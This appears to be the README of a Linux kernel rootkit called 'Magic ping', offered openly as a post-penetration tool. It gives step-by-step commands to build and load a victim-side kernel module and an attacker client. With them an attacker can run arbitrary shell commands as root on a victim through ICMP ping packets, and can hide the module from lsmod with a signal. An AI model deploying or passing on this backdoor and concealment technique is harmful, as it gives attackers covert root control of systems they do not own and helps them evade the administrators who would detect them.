 Magic ping - shell execution


<center>
<img src="https://img.shields.io/badge/License-MIT-informational" alt="License - MIT">
<a href="https://github.com/Zhang1933/linux-rootkit"><img src="https://img.shields.io/static/v1?label=Security&message=Post+penetration+tool&color=informational" alt="Security - Post penetration tool"></a>
<a href="https://github.com/Zhang1933/linux-rootkit"><img src="https://img.shields.io/static/v1?label=Tested+on&message=5.4.0-109-generic+%23123-Ubuntu+x86_64+GNU%2FLinux&color=yellowgreen" alt="Tested on - 5.4.0-109-generic #123-Ubuntu x86_64 GNU/Linux"></a>
</center>




## Features:

* Romete shell command execution by ping.
* Hiding (Showing) Kernel Module from Userspace. 


## Compile 

### compile server(victim) kernel module:
```bash
cd server && make
```

**Client(attacker):**

```bash
cd client && make
```

**Romete server (victim):**

```
sudo insmod server.mod
```

## Local attacker:

Need root privilege to send icmp packets for ping.
```
sudo ./client <victim ip address>
```

Then you can let remote victim execute whatever shell command you input as root privilege (some command may need full path).

## Hide(Show) remote kernel module:

Send signal 64 to show or hide:
```
kill -64 1
```
Use `lsmod` to check.

## TODO:

* Kernel version > 5.7 supporting.

## Thanks && Reference：

* [Hacking the Linux Kernel Network Stack](http://phrack.org/issues/61/13.html)
* [Does tcpdump bypass iptables?](https://superuser.com/questions/925286/does-tcpdump-bypass-iptables)
* [linux-network-programming-ping.c](https://github.com/coding-fans/linux-network-programming/blob/master/src/c/icmp/ping/ping.c)
* [Given a git commit hash, how to find out which kernel release contains it?](https://unix.stackexchange.com/questions/45120/given-a-git-commit-hash-how-to-find-out-which-kernel-release-contains-it)
* [Linux Rootkits Part 5: Hiding Kernel Modules from Userspace](https://xcellerator.github.io/posts/linux_rootkits_05/)
* [Hooking Linux Kernel Functions, Part 2: How to Hook Functions with Ftrace](https://www.apriorit.com/dev-blog/546-hooking-linux-functions-2)
